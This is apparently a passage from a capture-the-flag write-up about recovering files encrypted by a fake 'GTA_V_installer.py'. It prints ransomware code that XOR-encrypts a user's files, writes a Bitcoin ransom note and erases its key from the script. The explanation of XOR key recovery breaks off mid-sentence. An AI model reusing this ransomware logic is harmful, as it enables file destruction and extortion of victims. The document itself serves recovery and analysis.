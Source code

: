 ```python
                list_of_files.append(os.path.join(root, file))
    print(list_of_files)
    print("\n")

    xorKey = input("Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: ")

    for file in list_of_files:
        if "GTA_V_installer.py" not in file:
            with open(file, 'rb') as f:
                data = bytearray(f.read())
                print("data : " + str(data) + "\n")
                encrypted_data = encryptDecrypt(data)
                print("encrypted : " + str(encrypted_data) + "\n")
            with open(file, 'wb') as f:
                f.write(encrypted_data)

    # Create a READ_TO_RETRIEVE_YOUR_DATA.txt file
    with open(main_folder + "READ_TO_RETRIEVE_YOUR_DATA.txt", 'w') as f:
        f.write("Your PC is now encrypted.\nThe only way you may retrieve your data is by sending 1000 Bitcoins to the following address: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa\n")
        f.write("Add a message to the Bitcoin transfer with your email address.\nThe code to decrypt your data will be sent automatically to this email.\n")
        f.write("Once you get this code, simply run \"python GTA_V_installer.py\" and input your code.\n")
        f.write("I'm very sorry for the inconvenience. I need to feed my family.\n")
        f.write("HODL.\n")

    # I replace the line where the key is defined, that way I can use the same script for decryption without leaving any trace of the key
    is_edited = False
    for line in fileinput.input("./GTA_V_installer.py", inplace=1):
        if "xorKey = " in line and not is_edited:
            line = "    xorKey = input(\"Enter the key you received after following the instructions in READ_TO_RETRIEVE_YOUR_DATA.txt: \")\n"
            is_edited = True
        sys.stdout.write(line)
```

All the non-hidden files present in /home/jeanne have been encrypted but fortunately, the encryption is simple, the files have just been XORied with a key.

reminder : 
$$
a \oplus b = c \newline
a \oplus c = b
$$
If we take a closer look at the list of encrypted files, we notice the 

- network.desktop
- trash-can.desktop
- user-home.desktop
- computer.desktop
